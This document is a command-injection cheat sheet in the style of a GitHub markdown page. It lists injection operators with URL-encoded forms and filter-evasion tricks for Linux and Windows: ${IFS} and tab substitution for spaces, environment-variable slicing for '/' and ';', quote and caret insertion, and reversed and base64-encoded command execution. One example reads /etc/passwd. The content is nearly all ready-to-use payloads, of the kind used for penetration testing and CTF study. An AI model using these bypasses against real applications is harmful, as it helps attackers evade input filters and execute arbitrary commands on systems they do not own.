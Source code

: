# Command Injection
- [Linux](#linux)
- [Windows](#windows)


## Injection Operators

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon         | `;`                 | `%3b`                 | Both             |
| New Line         | `\n`                 | `%0a`                 | Both             |
| Background       | `&`                  | `%26`                 | Both (second output generally shown first) |
| Pipe            | `\|`                   | `%7c`                 | Both (only second output is shown) |
| AND             | `&&`                  | `%26%26`              | Both (only if first succeeds) |
| OR              | `\|\|`                  | `%7c%7c`              | Second (only if first fails) |
| Sub-Shell       | \` \`                | `%60%60`              | Both (Linux-only) |
| Sub-Shell       | `$()`                 | `%24%28%29`           | Both (Linux-only) |

---

## Linux  
### Filtered Character Bypass  

| Code | Description |
|------|------------|
| `printenv` | Can be used to view all environment variables |

#### Spaces  

| Code | Description |
|------|------------|
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}` | Commas will be replaced with spaces |

#### Other Characters  

| Code | Description |
|------|------------|
| `${PATH:0:1}` | Will be replaced with `/` |
| `${LS_COLORS:10:1}` | Will be replaced with `;` |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` → `\`) |


### Blacklisted Command Bypass  

#### Character Insertion  

| Code | Description |
|------|------------|
| `'` or `"` | Total must be even |
| `$@` or `\` | Linux only |

#### Case Manipulation  

| Code | Description |
|------|------------|
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |

#### Reversed Commands  

| Code | Description |
|------|------------|
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |

#### Encoded Commands  

| Code | Description |
|------|------------|
| `echo -n 'cat /etc/passwd | grep 33' | base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

---

## Windows  
### Filtered Character Bypass  

| Code | Description |
|------|------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |

#### Spaces  

| Code | Description |
|------|------------|
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |

#### Other Characters  

| Code | Description |
|------|------------|
| `%HOMEPATH:~0,-17%` | Will be replaced with `\` - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with `\` - (PowerShell) |


### Blacklisted Command Bypass  

#### Character Insertion  

| Code | Description |
|------|------------|
| `'` or `"` | Total must be even |
| `^` | Windows only (CMD) |

#### Case Manipulation  

| Code | Description |
|------|------------|
| `WhoAmi` | Simply send the character with odd cases |

#### Reversed Commands  

| Code | Description |
|------|------------|
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |

#### Encoded Commands  

| Code | Description |
|------|------------|
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA'))) "` | Execute b64 encoded string |




## Resources
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space)